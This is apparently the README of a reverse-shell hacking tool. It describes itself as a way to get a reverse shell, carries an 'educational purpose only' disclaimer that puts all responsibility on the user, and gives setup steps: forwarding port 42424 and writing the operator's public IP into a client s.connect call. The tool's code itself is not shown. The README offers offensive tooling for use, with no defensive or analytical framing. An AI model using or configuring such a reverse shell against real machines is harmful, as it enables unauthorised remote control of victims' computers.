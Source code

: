 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

How to use:
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.
on the client script - make sure that you have you public IP address there on s.connect((%PUBLIC IP ADDRESS%, 42424))

